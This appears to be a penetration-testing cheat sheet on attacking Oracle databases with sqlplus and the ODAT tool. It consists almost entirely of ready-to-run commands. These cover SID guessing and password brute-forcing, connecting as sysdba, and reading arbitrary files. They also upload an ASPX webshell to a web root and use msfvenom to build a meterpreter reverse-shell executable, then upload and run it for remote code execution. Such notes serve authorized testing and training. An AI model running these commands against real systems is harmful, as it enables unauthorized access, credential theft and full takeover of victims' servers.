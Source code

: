 ```yaml
---
title: "Oracle Database"
date: 2024-7-5
tags: ["Oracle Db", "File System Permissions Vulnerabilities", "Database Dumping", "Brute Force", "Enumeration", "Privilege Escalation In Databases", "Database", "Sqlplus", "Odat", "Reverse Shell", "RCE"]
---
```


### Tools

{{< tab set1 tab1 >}}sqlplus{{< /tab >}}
{{< tab set1 tab2 >}}ODAT{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Install
sudo apt install oracle-instantclient-sqlplus
```

```console
# export LD_LIBRARY_PATH
export LD_LIBRARY_PATH=/usr/lib/oracle/19.6/client64/lib${LD_LIBRARY_PATH:+:$LD_LIBRARY_PATH}
```

```console
# Check
sqlplus -V
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Install
sudo apt install odat
```

```console
# Check
odat --version
```

<small>*Ref: [Download ODAT](https://github.com/quentinhardy/odat)*</small>

{{< /tabcontent >}}

---

### Enum

```console
# SID enum (You only need one)
odat sidguesser -s <TARGET>
```

```console
# User/Password brute force
odat passwordguesser -s <TARGET> -d <SID> --accounts-file accounts.txt
```

```console
# Run all checks with creds as sysdba
odat all -s <TARGET> -U '<USER>' -P '<PASSWORD>' -d <SID> --sysdba
```

### General

```console
# Export everytime or add to ~/.zshrc
export LD_LIBRARY_PATH=/usr/lib/oracle/19.6/client64/lib${LD_LIBRARY_PATH:+:$LD_LIBRARY_PATH}
```

```console
# Connect
sqlplus '<USER>/<PASSWORD>@<TARGET>:1521/<SID>'
```

```console
# Connect as sysdba (sudo)
sqlplus '<USER>/<PASSWORD>@<TARGET>:1521/<SID>' as sysdba
```

```console
# Check privilege
select * from user_role_privs;
```

---

### Abuse #1: Arbitrary Read

```console
odat ctxsys -s <TARGET> -U '<USER>' -P '<PASSWORD>' -d <SID> --sysdba --getFile c:\\users\\administrator\\desktop\\file.txt
```

### Abuse #2: Upload File to RCE

```console
odat dbmsadvisor -s <TARGET> -U '<USER>' -P '<PASSWORD>' -d <SID> --sysdba --putFile C:\\inetpub\\wwwroot cmdasp.aspx /usr/share/webshells/aspx/cmdasp.aspx
```

### Abuse #3: Execute binary to RCE

```console
# Create a malicious exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f exe -o revshell.exe
```

```console
# Upload
odat utlfile -s <TARGET> -U '<USER>' -P '<PASSWORD>' -d <SID> --sysdba --putFile C:\\ProgramData revshell.exe revshell.exe
```

```console
# Execute
odat externaltable -s <TARGET> -U '<USER>' -P '<PASSWORD>' -d <SID> --sysdba --exec C:\\ProgramData revshell.exe
```
